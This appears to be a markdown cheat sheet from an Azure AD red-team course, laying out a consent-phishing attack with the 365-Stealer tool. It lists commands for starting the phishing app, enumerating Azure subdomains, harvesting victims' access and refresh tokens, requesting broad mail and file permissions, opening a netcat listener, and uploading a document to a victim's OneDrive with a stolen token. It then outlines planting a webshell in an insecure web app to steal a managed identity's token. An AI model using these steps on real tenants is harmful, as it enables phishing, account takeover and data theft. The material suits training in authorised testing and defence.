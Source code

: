 #### Start the 365-stealer
```
&"C:\Program Files\Python38\python.exe" C:\xampp\htdocs\365-Stealer\365-Stealer.py --run-app
```

#### Get the phishinglink
- Browse to https://localhost and click on readmore. Copy the link!

#### Enumerating applications to send the phishing link
- Edit the permutations.txt to add permutations such as career, hr, users, file and backup
```
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base <BASE> –Verbose
```

#### Get the access tokens
- Browse to http://localhost:82/365-Stealer/yourvictims/
- Click on the user and copy the access token from access_token.txt
- See the "Using Azure tokens" section

#### Get admin consent
- https://docs.microsoft.com/en-us/azure/active-directory/manage-apps/grant-admin-consent
- Global Admin, Application Admin, or Cloud Application Administrator can all grant tenant wide application admin consent
```
- In the left menu go to 'API permissions' and add the mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send to Microsoft Graph.
- Refish the user to get a token with the extra permissions
```

#### Start a listener
```
nc.exe -lvp 4444
```

#### Abuse the access token - Uploading word doc to OneDrive
```
cd C:\xampp\htdocs\365-Stealer\

& 'C:\Program Files\Python38\python.exe' 365-Stealer.py --upload <PATH TO DOC> --token-path C:\xampp\htdocs\365-Stealer\yourVictims\<USER>\access_token.txt
```

#### Refresh all tokens
- Access token is valid for 1 hour, can't be revoked.
- Refresh token is valid for 90 days but can be revoked.
```
python 365-Stealer.py --refresh-all
```

## Insecure file upload
- Upload a webshell to a insecure webapp
- If command execution is possible execute command ```env```
- if the app service contains environment variables IDENITY_HEADER and IDENTITY_ENDPOINT, it has a managed identity.
- Get access token from managed identity using another webshell. Upload studentxtoken.phtml
